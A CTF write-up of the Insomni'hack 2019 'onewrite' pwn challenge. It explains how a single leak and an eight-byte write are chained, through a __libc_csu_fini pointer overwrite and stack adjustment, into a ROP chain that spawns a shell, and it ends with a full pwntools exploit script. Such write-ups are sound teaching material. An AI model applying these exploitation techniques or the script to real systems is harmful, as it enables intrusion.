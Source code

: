 ```yaml
---
layout: post
title: ! "[Insomni'hack 2019] onewrite writeup"
comments: true
excerpt_separator: <!--more-->
tags:
  - Write-up
  - CTF
  - Pwn
  - MyriaBreak
---
```

### Description

> [File](../images/myria/wishlist-writeup/onewrite) is here
> difficulty: easy
>_  nc onewrite.teaser.insomnihack.ch 1337

<!--more-->
A program is a Simple.

```bash
All you need to pwn nowadays is a leak and a qword write they say...
What do you want to leak ?
1. stack
2. pie
 > 1
0x7fff979bf4a0
address : 140735736968352   
data : 12345678
 ```

we can leak a `stack` or `do_leak` function pointer for us once. Then, it will call `do_overwrite` which allows us to overwrite 8 byte to arbitrary address.

 ```bash
 [*] '/home/myria/CTF/Insomni_hack/onewrite/onewrite'
     Arch:     amd64-64-little
     RELRO:    Partial RELRO
     Stack:    Canary found
     NX:       NX enabled
     PIE:      PIE enabled

 and binary is "statically linked"
 ```

but, the binary is statically linked, we need leak `stack` and `pie` both of all.
The attack is summarized as follows.

 1. Leak `PIE` address
 2. Overwrite `pie_addr + 0x2a55a3` with `main` address
 3. Program end. And the `exit` will be called after `main` returns.
 (it call `__libc_csu_fini` function)
 4. `__libc_csu_fini` function call `QWORD [pie_addr + 0x2a55a3]`. so we again jump to `main` function.
 5. Leak `Stack` address
 6. Write a `ropchain` in the `bss`
 7. Jump `ropchain`
 8. Get Shell

The exit function is called after the main function ends. Then, the function `__libc_csu_fini` is called and you can return to main by using the `call QWORD PTR [rbp + rbx*8+0x0]` of `<__ libc_csu_fini+40>`.
 ![]({{ site.baseurl }}/images/myria/onewrite-writeup/onewrite_03.png)

 ![]({{ site.baseurl }}/images/myria/onewrite-writeup/onewrite_01.png)

 `6. Write a 'ropchain' in the 'bss'` is hard part. so i need to be able to write 8 bytes somewhere and `jump free` from the main function again.
You can adjust the `stack` by omitting the function's prologue or epilogue appropriately.
 manipulate the return address of the `main function` and manipulate the return address of the `do_leak function`. (`sub rsp, 0x18` ,` add rsp, 0x18` or `sub rsp, 0x8` ,` add rsp, 0x8`)
Then the `stack` is configured as shown below. Now we got one ``free write`` via two operations.

 ![]({{ site.baseurl }}/images/myria/onewrite-writeup/onewrite_02.png)

The rest is simple. configure ropchain and use `pop rsp; ret`

#### [Korean writeup](https://xerxes-break.tistory.com/401)

### The full exploit code

 ```python
 from pwn import *

#conn = remote("onewrite.teaser.insomnihack.ch", 1337)
conn = process("onewrite")

def leak(select):
	conn.recvuntil(" > ")
	conn.sendline(str(select))
	leak_addr = int(conn.recvline().strip(), 16)
	return leak_addr

def write(addr, data):
	conn.recvuntil("address : ")
	conn.send(str(addr))
	conn.recvuntil("data : ")
	conn.send(data)

## Stage 1
# do_leak func address leak
pie_addr = leak(2)
log.info("pie_address : " + hex(pie_addr))

target = pie_addr + 0x2a55a3 # rbp+rbx*8+0x0   //   call QWORD PTR [rbp+rbx*8+0x0]
main = pie_addr + 0xa3		# main function address
write(target, p64(main))

## Stage 2
# stack_address leak
stack_addr = leak(1)
target = stack_addr  + 0x28	# return address (main function)
log.info("stack_address : " + hex(stack_addr))
write(target, p64(main))


def write_arbitrary(addr, data):
	# stack_address += 8
	stack_addr = leak(1)
	log.info("stack_address : " + hex(stack_addr))
	target = stack_addr  + 0x28
	write(target, p64(main))

	# stack_address -= 8
	stack_addr = leak(1)
	log.info("stack_address : " + hex(stack_addr))
	target = stack_addr  + 0x18
	write(target, p64(main))

	# main_ret => main
	# free write! and return Main
	stack_addr = leak(1)
	log.info("stack_address : " + hex(stack_addr))
	log.info("writing")
	write(addr, data)	# free write

# rop_gadget
pie_base = pie_addr - 0x000008A15
pop_rdi = pie_base + 0x000858fb
pop_rsi = pie_base + 0x0008551a
pop_rdx = pie_base + 0x000484c5
pop_rax = pie_base + 0x0004654c
syscall = pie_base + 0x00088834

bss_address = pie_base + 0x2B38D0

log.info("pie_base : " + hex(pie_base))

# write "/bin/sh" to BSS
write_arbitrary(bss_address, "/bin/sh\x00")

idx = 2
def rop(data):
	global idx
	write_arbitrary(bss_address + idx*8, p64(data))
	idx+=1

# write rop_chain to BSS
rop(pop_rdi)
rop(bss_address)
rop(pop_rsi)
rop(0)
rop(pop_rdx)
rop(0)
rop(pop_rax)
rop(59)
rop(syscall)

def trigger_rop():
	stack_addr = leak(1)
	target = stack_addr  + 0x28
	log.info("stack_address : " + hex(stack_addr))
	write(target, p64(main))

	pop_rsp = pie_base + 0x00087c46
	rop_chain = bss_address + 0x10

	# jump ropchain
	write_arbitrary(stack_addr + 0x40, p64(pop_rsp))
	write_arbitrary(stack_addr + 0x48, p64(rop_chain))

trigger_rop()
leak(1)
write(1,"id\n")

conn.interactive()
 ```
